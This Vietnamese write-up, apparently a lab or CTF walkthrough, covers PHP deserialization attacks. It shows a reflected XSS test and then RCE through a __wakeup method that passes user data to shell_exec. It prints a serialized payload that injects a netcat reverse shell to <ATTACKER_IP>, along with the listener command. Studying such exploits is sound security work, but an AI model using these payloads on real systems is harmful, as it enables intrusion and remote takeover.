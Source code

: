 3. **Kiểm tra cục bộ**:  
   - Chạy lệnh:  
     ```bash
     php target.php TzoyNDoiQXBwXEhlbHBlcnNcVXNlcl...SNIP...x0LmpwZyI7fQ==
     ```
   - Kết quả:
     ```
     $user->name = <script>alert(1)</script>
     $user->email = [email protected]
     $user->password = $2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
     $user->profile_pic = default.jpg
     ```

4. **Thử nghiệm thực tế**:  
   - Nhập payload vào hệ thống.  
   - Mã `<script>alert(1)</script>` được thực thi, xác nhận thành công **Reflected XSS**.  

---


# 5. Tổng Quan về RCE qua Magic Methods trong PHP

Magic methods trong PHP là các hàm được định nghĩa với tiền tố `__` (hai dấu gạch dưới) và thường được PHP tự động gọi trong các tình huống cụ thể. Trong bối cảnh tấn công, các magic methods như `__wakeup`, `__sleep`, và `__construct` có thể bị lợi dụng để thực thi mã hoặc gây tổn hại cho hệ thống, đặc biệt khi chúng tương tác với dữ liệu đầu vào của người dùng.

### Tấn Công RCE qua `__wakeup`

Trong đoạn mã được cung cấp:
- Hàm `__wakeup` sử dụng `shell_exec` để thực thi một lệnh hệ thống. 
- Biến `$this->getName()` trong lệnh được lấy từ dữ liệu do người dùng kiểm soát, dẫn đến khả năng tấn công **command injection**.

#### Cách Khai Thác:

1. **Chuẩn Bị Payload:**
   - Tạo một payload lợi dụng để phá vỡ cú pháp lệnh `echo` bằng dấu `";`.
   - Chèn lệnh thực thi trái phép, ví dụ: mở một shell từ xa bằng `netcat`.

   ```php
   echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
   ```

2. **Kiểm Tra Payload Cục Bộ:**
   - Tạo một file PHP mô phỏng việc gọi hàm `__wakeup` và kiểm tra xem lệnh đã được chèn đúng hay chưa.
   - Kết nối đến máy tấn công qua Netcat để xác minh khả năng mở kết nối shell.

   ```bash
   nc -nvlp 9999
   ```
